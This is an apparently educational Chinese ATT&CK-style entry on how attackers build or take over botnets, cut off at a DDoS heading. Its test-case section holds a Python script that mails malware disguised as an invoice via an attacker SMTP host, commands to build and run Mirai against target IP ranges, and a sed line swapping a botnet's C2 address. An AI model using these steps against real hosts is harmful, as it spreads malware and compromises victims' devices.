 # T1584-005-入侵基础设施-僵尸网络

## 描述
在入侵目标组织之前，攻击者可能通过入侵多个第三方系统，组建僵尸网络（Botnet）以支持目标定位和攻击执行。僵尸网络是由大量受感染主机组成的网络，这些主机通过恶意软件（如僵尸程序）被控制，可由攻击者通过命令与控制（C2）通道统一指挥。攻击者可能自行入侵系统以构建僵尸网络，或者接管现有的僵尸网络（例如通过重定向僵尸程序到攻击者控制的C2服务器）。僵尸网络可用于多种恶意活动，包括分布式拒绝服务（DDoS）攻击、大规模网络钓鱼、恶意软件分发、数据窃取或代理中继。

攻击者可能通过以下方式入侵和组建僵尸网络：
- **恶意软件传播**：通过钓鱼邮件、漏洞利用或恶意下载感染主机，植入僵尸程序（如Mirai、Emotet）。
- **漏洞利用**：利用未修补的系统漏洞（如IoT设备、Windows服务器）大规模感染主机。
- **凭据窃取**：通过钓鱼或凭据填充获取主机访问权限，部署僵尸程序。
- **接管现有僵尸网络**：通过分析现有僵尸程序，替换C2服务器地址，控制受感染主机。
- **功能利用**：利用僵尸网络执行DDoS攻击、钓鱼分发、恶意软件传播或代理服务。

僵尸网络的规模化、隐蔽性和多功能性使其成为攻击者的强大工具，尤其在需要大规模攻击或匿名性的场景中。

## 测试案例
以下是模拟攻击者入侵和组建僵尸网络的常见方法和案例：
- **恶意软件传播**：
  - 通过钓鱼邮件分发恶意附件，感染主机并植入僵尸程序。
    ```python
    import smtplib
    from email.mime.text import MIMEText
    from email.mime.multipart import MIMEMultipart
    from email.mime.base import MIMEBase
    from email import encoders
    msg = MIMEMultipart()
    msg['Subject'] = 'Urgent: Invoice Update'
    msg['From'] = 'attacker@malicious.com'
    msg['To'] = 'victim@target.com'
    part = MIMEBase('application', 'octet-stream')
    part.set_payload(open('malware.exe', 'rb').read())
    encoders.encode_base64(part)
    part.add_header('Content-Disposition', 'attachment; filename="invoice.exe"')
    msg.attach(part)
    with smtplib.SMTP('smtp.malicious.com') as server:
        server.login('user', 'pass')
        server.send_message(msg)
    ```
- **漏洞利用**：
  - 利用Mirai源码攻击易受感染的IoT设备。
    ```bash
    # 使用Mirai源码感染设备
    git clone https://github.com/jgamblin/Mirai-Source-Code
    cd Mirai-Source-Code
    ./build.sh
    # 扫描并感染设备
    ./mirai -s <TARGET_IP_RANGE>
    ```
- **接管现有僵尸网络**：
  - 逆向分析僵尸程序，替换C2服务器地址。
    ```bash
    # 修改僵尸程序C2地址（伪代码）
    sed -i 's/old_c2.attacker.com/new_c2.attacker.com/g' malware_binary
    ```
- **功能利用**：
  - **DDoS攻击**：使用僵尸网络发起HTTP Flood攻击。